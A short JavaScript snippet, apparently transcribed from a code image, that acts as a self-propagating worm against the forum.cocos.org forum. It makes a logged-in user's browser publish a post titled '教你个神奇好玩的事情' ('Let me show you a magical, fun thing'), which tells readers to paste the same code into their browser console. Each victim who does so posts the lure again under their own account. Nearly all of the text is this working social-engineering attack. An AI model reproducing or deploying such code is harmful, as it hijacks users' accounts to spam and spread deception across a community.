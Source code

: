 let data = JSON.parse(`{"method":"POST","data":{"raw":"","title":"教你个神奇好玩的事情","category":27,"is_warning":false,"archetype":"regular","typing_duration_msecs":3500,"composer_open_duration_msecs":37980,"image_sizes":{},"nested_post":true},"headers":{},"type":"GET","dataType":"json","cache":false}`)
data.data.raw = String.raw`### 第一步：打开下方链接，复制内容
$.ajax('https://forum.cocos.org/posts',JSON.parse('{"method":"POST","data":{"raw":"","title":"教你个神奇好玩的事情","category":27,"is_warning":false,"archetype":"regular","typing_duration_msecs":3500,"composer_open_duration_msecs":37980,"image_sizes":{},"nested_post":true},"headers":{},"type":"GET","dataType":"json","cache":false}'))

### 第二步：回到论坛，右键审查元素（或按F12），打开浏览器控制台，在console中粘贴
### 第三步：回车

### 你会发现神奇的事情发生了。。。`
$.ajax('https://forum.cocos.org/posts',data)
